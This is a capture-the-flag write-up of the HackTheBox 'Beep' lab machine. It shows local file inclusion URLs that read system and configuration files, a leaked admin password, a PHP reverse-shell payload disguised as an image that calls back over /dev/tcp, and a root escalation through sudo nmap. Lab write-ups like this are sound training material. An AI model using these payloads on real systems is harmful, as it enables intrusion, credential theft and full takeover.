





---
search:
  exclude: true
---
# Beep Writeup

## Introduction :

Beep is an easy Linux box which was released back in March 2017.  It features multiple Local File Inclusion Vulnerabilities.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions on the ports that we might find interesting.
    
    
      λ nihilist [~] → nmap 10.10.10.7
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-09 11:47 CET
      Nmap scan report for 10.10.10.7
      Host is up (0.075s latency).
      Not shown: 988 closed ports
      PORT      STATE SERVICE
      22/tcp    open  ssh
      25/tcp    open  smtp
      80/tcp    open  http
      110/tcp   open  pop3
      111/tcp   open  rpcbind
      143/tcp   open  imap
      443/tcp   open  https
      993/tcp   open  imaps
      995/tcp   open  pop3s
      3306/tcp  open  mysql
      4445/tcp  open  upnotifyp
      10000/tcp open  snet-sensor-mgmt
    
      Nmap done: 1 IP address (1 host up) scanned in 1.13 seconds
    
    

There are alot of opened ports on this machine, Let's use the -sC and -sV flags on the ports 80 and 10000 to get a few more details. 
    
    
      λ nihilist [~] → nmap -sC -sV 10.10.10.7 -p80,10000
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-09 11:50 CET
      Nmap scan report for 10.10.10.7
      Host is up (0.071s latency).
    
      PORT      STATE SERVICE VERSION
      80/tcp    open  http    Apache httpd 2.2.3
      |_http-server-header: Apache/2.2.3 (CentOS)
      |_http-title: Did not follow redirect to https://10.10.10.7/
      |_https-redirect: ERROR: Script execution failed (use -d to debug)
      10000/tcp open  http    MiniServ 1.570 (Webmin httpd)
      |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
      Service Info: Host: 127.0.0.1
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 37.64 seconds
    

looking at the results, we see that we are dealing with Miniserv 1.570 and Apache 2.2.3 running on CentOS.  Let's fire up our web browser to see what we are dealing with, at both the 80 and 10000th port.

## **Part 2 : Getting User Access**

We see that port 80 is giving us Elastix login page, 

As for the port 10000, it is giving us a webmin login page as it was mentionned in the previous nmap result.

 We will now check for available exploits for both the Elastix and the Webmin Services.  We will be using the **Searchsploit** command for that matter :
    
    
      λ nihilist [~] → searchsploit webmin
    --------------------------------------------------------------------------- ----------------------------------------
     Exploit Title                                                             |  Path
                                                                                 | (/usr/share/exploitdb/)
    --------------------------------------------------------------------------- ----------------------------------------
    DansGuardian Webmin Module 0.x - 'edit.cgi' Directory Traversal            | exploits/cgi/webapps/23535.txt
    Webmin - Brute Force / Command Execution                                   | exploits/multiple/remote/705.pl
    Webmin 0.9x / Usermin 0.9x/1.0 - Access Session ID Spoofing                | exploits/linux/remote/22275.pl
    Webmin 0.x - 'RPC' Privilege Escalation                                    | exploits/linux/remote/21765.pl
    Webmin 0.x - Code Input Validation                                         | exploits/linux/local/21348.txt
    Webmin 1.5 - Brute Force / Command Execution                               | exploits/multiple/remote/746.pl
    Webmin 1.5 - Web Brute Force (CGI)                                         | exploits/multiple/remote/745.pl
    Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)      | exploits/unix/remote/21851.rb
    Webmin 1.850 - Multiple Vulnerabilities                                    | exploits/cgi/webapps/42989.txt
    Webmin 1.900 - Remote Command Execution (Metasploit)                       | exploits/cgi/remote/46201.rb
    Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)     | exploits/linux/remote/46984.rb
    Webmin 1.920 - Remote Code Execution                                       | exploits/linux/webapps/47293.sh
    Webmin 1.920 - Unauthenticated Remote Code Execution (Metasploit)          | exploits/linux/remote/47230.rb
    Webmin 1.x - HTML Email Command Execution                                  | exploits/cgi/webapps/24574.txt
    Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure (PHP)         | exploits/multiple/remote/1997.php
    Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure (Perl)        | exploits/multiple/remote/2017.pl
    phpMyWebmin 1.0 - 'target' Remote File Inclusion                           | exploits/php/webapps/2462.txt
    phpMyWebmin 1.0 - 'window.php' Remote File Inclusion                       | exploits/php/webapps/2451.txt
    **webmin 0.91 - Directory Traversal                                          | exploits/cgi/remote/21183.txt**
    --------------------------------------------------------------------------- ----------------------------------------
    Shellcodes: No Result
    
     nihilist [~] → searchsploit elastix
    --------------------------------------------------------------------------- ----------------------------------------
     Exploit Title                                                             |  Path
                                                                               | (/usr/share/exploitdb/)
    --------------------------------------------------------------------------- ----------------------------------------
    Elastix - 'page' Cross-Site Scripting                                      | exploits/php/webapps/38078.py
    Elastix - Multiple Cross-Site Scripting Vulnerabilities                    | exploits/php/webapps/38544.txt
    Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities              | exploits/php/webapps/34942.txt
    **Elastix 2.2.0 - 'graph.php' Local File Inclusion                           | exploits/php/webapps/37637.pl**
    Elastix 2.x - Blind SQL Injection                                          | exploits/php/webapps/36305.txt
    Elastix < 2.5 - PHP Code Injection                                         | exploits/php/webapps/38091.php
    FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                     | exploits/php/webapps/18650.py
    --------------------------------------------------------------------------- ----------------------------------------
    Shellcodes: No Result
    
    
    

So we have a server here which is running Elastix on port 80 (http), let's see if we can list directories using a command like gobuster.  Just to show another tool for this example, we'll use Dirbuster, which goes by the syntax "dirb http://10.10.10.7:80/"
    
    
    λ nihilist [~] → dirb http://10.10.10.7:80/
    

Dirbuster just found the vtigercm page, which is giving us yet another login page to work with. Fortunately for us vtigercrm is vulnerable to Local File Inclusion as displayed below in the searchsploit command output. 
    
    
    λ nihilist [~] → searchsploit vtiger
    --------------------------------------------------------------------------- ----------------------------------------
     Exploit Title                                                             |  Path
                                                                               | (/usr/share/exploitdb/)
    --------------------------------------------------------------------------- ----------------------------------------
    Vtiger - 'Install' Remote Command Execution (Metasploit)                   | exploits/php/remote/32794.rb
    Vtiger CRM 6.3.0 - (Authenticated) Arbitrary File Upload (Metasploit)      | exploits/php/webapps/44379.rb
    Vtiger CRM 7.1.0 - Remote Code Execution                                   | exploits/php/webapps/46065.py
    vTiger CRM 4.2 - 'calpath' Multiple Remote File Inclusions                 | exploits/php/webapps/2508.txt
    vTiger CRM 4.2 - SQL Injection                                             | exploits/php/webapps/26586.txt
    vTiger CRM 4.2 Leads Module - 'record' Cross-Site Scripting                | exploits/php/webapps/26584.txt
    vTiger CRM 4.2 RSS Aggregation Module - Feed Cross-Site Scripting          | exploits/php/webapps/26585.txt
    vTiger CRM 5.0.4 - Local File Inclusion                                    | exploits/php/webapps/16280.py
    vTiger CRM 5.0.4 - Multiple Cross-Site Scripting Vulnerabilities           | exploits/php/webapps/32307.txt
    vTiger CRM 5.0.4 - Remote Code Execution / Cross-Site Request Forgery / Lo | exploits/php/webapps/9450.txt
    **vTiger CRM 5.1.0 - Local File Inclusion                                    | exploits/php/webapps/18770.txt**
    vTiger CRM 5.2 - 'onlyforuser' SQL Injection                               | exploits/php/webapps/36208.txt
    vTiger CRM 5.2.1 - 'PHPrint.php' Multiple Cross-Site Scripting Vulnerabili | exploits/php/webapps/36204.txt
    vTiger CRM 5.2.1 - 'index.php' Multiple Cross-Site Scripting Vulnerabiliti | exploits/php/webapps/36203.txt
    vTiger CRM 5.2.1 - 'index.php' Multiple Cross-Site Scripting Vulnerabiliti | exploits/php/webapps/36255.txt
    vTiger CRM 5.2.1 - 'sortfieldsjson.php' Local File Inclusion               | exploits/php/webapps/35574.txt
    vTiger CRM 5.2.1 - 'vtigerservice.php' Cross-Site Scripting                | exploits/php/webapps/35577.txt
    vTiger CRM 5.3.0 5.4.0 - (Authenticated) Remote Code Execution (Metasploit | exploits/php/remote/29319.rb
    vTiger CRM 5.4.0 - 'index.php?onlyforuser' SQL Injection                   | exploits/php/webapps/28409.txt
    vTiger CRM 5.4.0 SOAP - AddEmailAttachment Arbitrary File Upload (Metasplo | exploits/php/remote/30787.rb
    vTiger CRM 5.4.0 SOAP - Multiple Vulnerabilities                           | exploits/php/webapps/27279.txt
    vTiger CRM 5.4.0/6.0 RC/6.0.0 GA - 'browse.php' Local File Inclusion       | exploits/php/webapps/32213.txt
    vTiger CRM 6.3.0 - (Authenticated) Remote Code Execution                   | exploits/php/webapps/38345.txt
    --------------------------------------------------------------------------- ----------------------------------------
    Shellcodes: No Result
    

VtigerCRM seems to be vulnerable to Local File Inclusion (LFI), let's take a closer look onto [exploit-db](https://www.exploit-db.com/exploits/18770). According to the article, the CVE 2012-4867 would allow us to Include Local Files due to a vulnerable php script named **sortfieldsjson.php** Let's test it with the following URL our web browser :
    
    
    https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
    

The LFI is successful, and We now have 2 usernames to work with : **fanis** and **root** We will now try out to see if we can get the user flag located in **/home/fanis** / Just for this example we'll print out the content of the page from within the terminal using the wget command using the following syntax : **wget -O - URL --no-check-certificate**
    
    
      λ nihilist [~] → wget -O - https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php\?module_name\=../../../../../../../../home/fanis/user.txt%00 --no-check-certificate
    
      --2019-11-09 15:00:39--  https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../home/fanis/user.txt%00
      Loaded CA certificate '/etc/ssl/certs/ca-certificates.crt'
      Connecting to 10.10.10.7:443... connected.
      WARNING: The certificate of ‘10.10.10.7’ is not trusted.
      WARNING: The certificate of ‘10.10.10.7’ doesn't have a known issuer.
      WARNING: The certificate of ‘10.10.10.7’ has expired.
      The certificate has expired
      The certificate's owner does not match hostname ‘10.10.10.7’
      HTTP request sent, awaiting response... 200 OK
      Length: 33 [text/html]
      Saving to: ‘STDOUT’
    
      -                              0%[                                               ]       0  --.-KB/s
      **aeXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX**
      -                            100%[==============================================>]      33  --.-KB/s    in 0s
    
      2019-11-09 15:00:40 (286 KB/s) - written to stdout [33/33]
    

We now have the user flag, but we are not able to get the root flag this way, we need to find a way to gain elevated privilege access. 

## **Part 3 : Getting Root Access**

In order to gain our elevated privilege access, we need to look at the results of our previous **searchsploit** command with the elastix keyword.  There seems to be yet another Local File Inclusion exploit that we could potentially use taking a closer look at the [exploit-db article](https://www.exploit-db.com/exploits/37637) : We see that there could be a LFI vulnerability contained within a php script named **"graph.php"**. Let's test if it is working here aswell.

We will use the curl command for this example, just to show off yet another syntax we could use.  **curl -vs URL -k**

the output is preety massive so i will highlight the important parts : 
    
    
      λ nihilist [~] → curl -vs https://10.10.10.7/vtigercrm/graph.php\?current_language\=../../../../../../../..//etc/amportal.conf%00\&module;\=Accounts\&action; 2>&1 -k
    
      [...]
    
      # FreePBX Database configuration
      # AMPDBHOST: Hostname where the FreePBX database resides
      # AMPDBENGINE: Engine hosting the FreePBX database (e.g. mysql)
      # AMPDBNAME: Name of the FreePBX database (e.g. asterisk)
      # AMPDBUSER: Username used to connect to the FreePBX database
      # AMPDBPASS: Password for AMPDBUSER (above)
      # AMPENGINE: Telephony backend engine (e.g. asterisk)
      # AMPMGRUSER: Username to access the Asterisk Manager Interface
      # AMPMGRPASS: Password for AMPMGRUSER
      #
      AMPDBHOST=localhost
      AMPDBENGINE=mysql
      # AMPDBNAME=asterisk
      AMPDBUSER=asteriskuser
      # AMPDBPASS=amp109
      **AMPDBPASS=jEhdIekWmdjE**
      AMPENGINE=asterisk
      **AMPMGRUSER=admin**
      #AMPMGRPASS=amp111
      AMPMGRPASS=jEhdIekWmdjE
    
      [...]
    
    

The second LFI is successful, we now have credentials that we can use on the vtigercrm login page.  **admin:jEhdIekWmdjE**

Once we are logged in , we simply need to browse into **Settings > Company Details** and inject our **reverse-shell.php** disguised as **reverse-shell.php.jpg**
    
    
      λ nihilist [~/_HTB/Beep] → nano nihilist.php.jpg
    
      <**?php exec("/bin/bash -c 'bash -i > & /dev/tcp/10.10.14.48/1234 0>&1'"); **?>
    
      λ nihilist [~/_HTB/Beep] → nc -lvnp 1234
    

at this point, all that is left to do is to upload our reverse shell, to browse to where the reverse shell is located, and to recieve the connection back to our Terminal running the netcat command used above. 

We will browse at this address : **http://10.10.10.7/vtigercrm/test/logo/nihilist.php.jpg**
    
    
    λ nihilist [~/_HTB/Beep] → nc -lvnp 1234
    Connection from 10.10.10.7:46306
    bash: no job control in this shell
    
    bash-3.2$ whoami
    asterisk
    
    bash-3.2$ uname -a
    Linux beep 2.6.18-238.12.1.el5 #1 SMP Tue May 31 13:23:01 EDT 2011 i686 athlon i386 GNU/Linux
    
    bash-3.2$ sudo -l
    Matching Defaults entries for asterisk on this host:
        env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
        LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
        LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
        LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
        XAUTHORITY"
    
    User asterisk may run the following commands on this host:
        (root) NOPASSWD: /sbin/shutdown
        **(root) NOPASSWD: /usr/bin/nmap**
        (root) NOPASSWD: /usr/bin/yum
        (root) NOPASSWD: /bin/touch
        (root) NOPASSWD: /bin/chmod
        (root) NOPASSWD: /bin/chown
        (root) NOPASSWD: /sbin/service
        (root) NOPASSWD: /sbin/init
        (root) NOPASSWD: /usr/sbin/postmap
        (root) NOPASSWD: /usr/sbin/postfix
        (root) NOPASSWD: /usr/sbin/saslpasswd2
        (root) NOPASSWD: /usr/sbin/hardware_detector
        (root) NOPASSWD: /sbin/chkconfig
        (root) NOPASSWD: /usr/sbin/elastix-helper
    
    

We now have a reverse shell as asterisk, but we need to escalate privileges.  We can use the nmap command which can be run as root for example. 
    
    
      bash-3.2$ sudo nmap --interactive
    
      Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
      Welcome to Interactive Mode -- press h  for help
      nmap> !sh
    
      whoami
      root
    
      cat /root/root.txt
    **d8XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX**
    
    

And that's it ! we finally got the root flag. 

## **Conclusion**

Here we can see the progress graph :

